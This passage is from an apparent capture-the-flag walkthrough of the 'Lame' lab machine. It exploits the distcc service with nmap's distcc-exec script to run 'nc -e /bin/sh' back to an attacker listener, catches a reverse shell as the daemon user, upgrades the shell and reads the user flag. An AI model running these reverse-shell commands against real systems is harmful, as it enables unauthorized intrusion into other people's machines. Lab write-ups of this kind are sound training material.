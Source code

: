I’ll play with this execution in more depth in [Beyond Root](#beyond-root---distcc-exploit).

## Shell as daemon

The script above actually already showed command execution, running and returning the results from the `id` command. I can see the process is running as daemon.

To get a shell, I’ll just start a `nc` listener, and change that command from `id` to `nc`:

```

root@kali# nmap -p 3632 10.10.10.3 --script distcc-exec --script-args="distcc-exec.cmd='nc -e /bin/sh 10.10.14.24 443'"
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-07 14:41 EDT
Nmap scan report for 10.10.10.3
Host is up (0.013s latency).

PORT     STATE SERVICE
3632/tcp open  distccd

Nmap done: 1 IP address (1 host up) scanned in 30.48 seconds

```

Instantly I get a shell:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.3.
Ncat: Connection from 10.10.10.3:57188.
id
uid=1(daemon) gid=1(daemon) groups=1(daemon)

```

I’ll upgrade it with `python -c 'import pty;pty.spawn("bash")'`, ctrl-z, `stty raw -echo`, `fg`, `reset`, and have a proper shell. I can grab `user.txt`:

```

daemon@lame:/home/makis$ cat user.txt
69454a93************************

```

## Shell as root

There are multiple paths to root. I won’t show kernel exploits, though I suspect there are a bunch (udev seems promising).

### Weak SSH Key
